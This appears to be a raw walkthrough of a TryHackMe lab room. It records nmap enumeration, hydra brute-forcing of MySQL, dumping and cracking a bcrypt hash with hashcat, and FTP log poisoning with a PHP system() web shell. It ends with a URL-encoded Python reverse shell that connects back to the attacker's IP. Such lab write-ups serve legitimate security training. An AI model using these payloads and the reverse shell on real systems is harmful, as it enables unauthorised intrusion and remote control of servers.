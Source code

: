 <code>
https://tryhackme.com/room/ettubrute

## Service enumetration

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.5
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 18:5a:d4:0f:2c:ae:36:9d:35:9c:83:af:da:85:a0:75 (RSA)
|   256 8b:72:5d:b3:75:27:26:6d:3f:a3:41:23:27:1e:cb:4e (ECDSA)
|_  256 6f:58:b9:06:ee:97:de:5e:64:76:55:00:4d:be:47:e7 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
3306/tcp open  mysql   MySQL 8.0.41-0ubuntu0.20.04.1
| ssl-cert: Subject: commonName=MySQL_Server_8.0.26_Auto_Generated_Server_Certificate
| Not valid before: 2021-10-19T04:00:09
|_Not valid after:  2031-10-17T04:00:09
|_ssl-date: TLS randomness does not represent time
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.41-0ubuntu0.20.04.1
|   Thread ID: 51
|   Capabilities flags: 65535
|   Some Capabilities: Speaks41ProtocolNew, Support41Auth, SwitchToSSLAfterHandshake, DontAllowDatabaseTableColumn, Speaks41ProtocolOld, LongPassword, SupportsCompression, FoundRows, ConnectWithDatabase, SupportsTransactions, IgnoreSigpipes, ODBCClient, SupportsLoadDataLocal, LongColumnFlag, IgnoreSpaceBeforeParenthesis, InteractiveClient, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: 4~L\x02ed`RsB\x08q1\x01E!L1~.
|_  Auth Plugin Name: caching_sha2_password
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

## mysql user Enumeration
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-16 11:50 CEST
Nmap scan report for 10.10.7.238
Host is up (0.032s latency).

PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL 8.0.41-0ubuntu0.20.04.1
|_mysql-vuln-cve2012-2122: ERROR: Script execution failed (use -d to debug)
| mysql-enum: 
|   Valid usernames: 
|     root:<empty> - Valid credentials
|     netadmin:<empty> - Valid credentials
|     guest:<empty> - Valid credentials
|     user:<empty> - Valid credentials
|     web:<empty> - Valid credentials
|     sysadmin:<empty> - Valid credentials
|     administrator:<empty> - Valid credentials
|     webadmin:<empty> - Valid credentials
|     admin:<empty> - Valid credentials
|     test:<empty> - Valid credentials
|_  Statistics: Performed 10 guesses in 1 seconds, average tps: 10.0
|_mysql-empty-password: ERROR: Script execution failed (use -d to debug)
| mysql-brute: 
|   Accounts: No valid accounts found
|   Statistics: Performed 0 guesses in 1 seconds, average tps: 0.0
|_  ERROR: The service seems to have failed or is heavily firewalled...
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.41-0ubuntu0.20.04.1
|   Thread ID: 116
|   Capabilities flags: 65535
|   Some Capabilities: IgnoreSpaceBeforeParenthesis, Support41Auth, Speaks41ProtocolOld, SwitchToSSLAfterHandshake, SupportsCompression, Speaks41ProtocolNew, SupportsTransactions, IgnoreSigpipes, ConnectWithDatabase, InteractiveClient, LongPassword, SupportsLoadDataLocal, FoundRows, DontAllowDatabaseTableColumn, LongColumnFlag, ODBCClient, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: \x15MGc\x1AmwX\x13bw\x1BE\x0BhH\x1Buf\x19
|_  Auth Plugin Name: caching_sha2_password

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.54 seconds


## password brute force sql
hydra -l root -P ../../www/wordlists/rockyou.txt 10.10.81.109 mysql
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-16 15:25:58
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://10.10.81.109:3306/
[3306][mysql] host: 10.10.81.109   login: root   password: rockyou
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-16 15:26:00



## mysql Enumeration


MySQL [mysql]> use website;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [website]> select * from user;
ERROR 1146 (42S02): Table 'website.user' doesn't exist
MySQL [website]> select * from userss;
ERROR 1146 (42S02): Table 'website.userss' doesn't exist
MySQL [website]> select * from userss
    -> select * from userss;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'select * from userss' at line 2
MySQL [website]> select * from users;
+----+----------+--------------------------------------------------------------+---------------------+
| id | username | password                                                     | created_at          |
+----+----------+--------------------------------------------------------------+---------------------+
|  1 | Adrian   | $2y$10$tLzQuuQ.h6zBuX8dV83zmu9pFlGt3EF9gQO4aJ8KdnSYxz0SKn4we | 2021-10-20 02:43:42 |
+----+----------+--------------------------------------------------------------+---------------------+
1 row in set (0.033 sec)

MySQL [website]> 


──(kali㉿kali)-[~/Documents/THM/THM_Brute]
└─$ cat hash.txt 
$A$005$n:{T^3%/{5=+Z0Y1zOxlUB7mIrlVbAxA5t4ARcqMaY6i4k1AhaU2/W1

## Adrian Hash creaking                                                                                                                                        

┌──(kali㉿kali)-[~/Documents/THM/THM_Brute]
└─$ hashcat hash.txt -m 3200 ../../../Documents/www/wordlists/rockyou.txt
hashcat (v6.2.6) starting
Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72
Dictionary cache built:
* Filename..: ../../../Documents/www/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

**$2y$10$tLzQuuQ.h6zBuX8dV83zmu9pFlGt3EF9gQO4aJ8KdnSYxz0SKn4we:tigger**
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$tLzQuuQ.h6zBuX8dV83zmu9pFlGt3EF9gQO4aJ8KdnSY...SKn4we
Time.Started.....: Tue May 20 12:35:32 2025 (1 sec)
Time.Estimated...: Tue May 20 12:35:33 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (../../../Documents/www/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       40 H/s (3.68ms) @ Accel:4 Loops:16 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 32/14344385 (0.00%)
Rejected.........: 0/32 (0.00%)
Restore.Point....: 16/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1008-1024
Candidate.Engine.: Device Generator
Candidates.#1....: 654321 -> butterfly

Started: Tue May 20 12:34:47 2025
Stopped: Tue May 20 12:35:34 2025

## credentials Adrian:tigger - only for web service not for ftp/ssh

## gobuster with credentials - nothing

┌──(kali㉿kali)-[~/Documents/THM/THM_Brute]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.210.144 -x .php, .txt, .html -c PHPSESSID=6mf4a6dknljbg7it5dvurulukb

/.                    (Status: 302) [Size: 0] [--> welcome.php]
/.php                 (Status: 403) [Size: 278]
/index.php            (Status: 302) [Size: 0] [--> welcome.php]
/welcome.php          (Status: 200) [Size: 631]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/config.php           (Status: 200) [Size: 0]
/.php                 (Status: 403) [Size: 278]
/.                    (Status: 200) [Size: 1080]
/server-status        (Status: 403) [Size: 278]
Progress: 661680 / 661683 (100.00%)

## FTP log poisoning

ftp 10.10.122.127
Connected to 10.10.122.127.
220 (vsFTPd 3.0.5)
Name (10.10.122.127:kali): '<?php system($_GET['c']); ?>'
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> 

http://10.10.122.127/welcome.php?c=id
Thu May 22 09:06:33 2025 [pid 1973] ['uid=33(www-data) gid=33(www-data) groups=33(www-data) '] FAIL LOGIN: Client "::ffff:10.8.28.108"


## reverse shell

http://10.10.122.127/welcome.php?c=export%20RHOST=%2210.8.28.108%22;export%20RPORT=4444;python3%20-c%20%27import%20sys,socket,os,pty;s=socket.socket();s.connect((os.getenv(%22RHOST%22),int(os.getenv(%22RPORT%22))));[os.dup2(s.fileno(),fd)%20for%20fd%20in%20(0,1,2)];pty.spawn(%22sh%22)%27

